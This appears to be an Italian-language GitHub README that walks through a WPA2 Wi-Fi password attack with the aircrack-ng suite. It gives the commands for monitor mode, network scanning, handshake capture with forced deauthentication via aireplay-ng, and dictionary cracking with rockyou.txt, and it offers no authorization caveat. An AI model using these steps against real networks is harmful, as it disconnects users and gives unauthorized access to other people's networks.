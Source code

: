 # AIRCRACK-NG - ATTACCO WPA2

## Requisiti
* Scheda di rete con supporto Monitor Mode
* Kali Linux / Parrot OS / Distro Linux compatibili
* Aircrack-NG
* Tutti i pacchetti di Aircrack-NG
* Dizionario password (WordList), consigliato rockyou.txt

## Utilizzo generale

1. #### Abilitare la modalità monitor sulla scheda di rete

> $ airmon-ng list
> $ airmon-ng start <nome interfaccia>

2. Scansionare le reti disponibili con **Airodump-NG**

> $ airodump-ng <nome interfaccia>

3. Utilizzare **Airodump-NG** e **Aireplay-NG** per catturare l'handshake
### Terminale 1 (Airodump):
> $ airodump-ng -c <channel> --bssid <bssid> -w <nome-file> <nome interfaccia>
### Terminale 2 (Aireplay):
> $ aireplay-ng -0 <numero attacchi> -a <bssid> <nome interfaccia>

4. Crackare il file **.CAP** contentente l'handshake tramite **Aircrack-NG** e la **wordlist.txt** scelta
> $ aircrack-ng -a 2 -b <bssid> -w <worldlist.txt> <file .cap>
